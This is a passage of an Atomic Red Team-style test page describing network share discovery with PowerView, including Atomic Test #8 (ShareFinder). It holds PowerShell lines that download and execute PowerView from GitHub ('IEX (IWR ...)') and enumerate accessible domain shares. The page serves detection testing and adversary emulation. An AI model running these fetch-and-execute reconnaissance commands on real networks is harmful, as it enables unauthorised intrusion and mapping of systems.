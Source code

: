 
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```




#### Dependencies:  Run with `powershell`!
##### Description: Endpoint must be joined to domain
##### Check Prereq Commands:
```powershell
if ((Get-WmiObject -Class Win32_ComputerSystem).PartofDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
"Join system to domain"
```




<br/>
<br/>

## Atomic Test #8 - PowerView ShareFinder
PowerView is a PowerShell tool to gain network situational awareness on Windows domains. ShareFinder finds (non-standard) shares on machines in the domain.

**Supported Platforms:** Windows


**auto_generated_guid:** d07e4cc1-98ae-447e-9d31-36cb430d28c4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parameters | ShareFinder parameter | string | -CheckShareAccess|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Invoke-ShareFinder #{parameters}
```




#### Dependencies:  Run with `powershell`!
##### Description: Invoke-ShareFinder module must exist in %TEMP% directory
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/darkoperator/Veil-PowerView/8784e33f17ee7543ba2f45e27dc5f08ea3a1b856/PowerView/powerview.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```
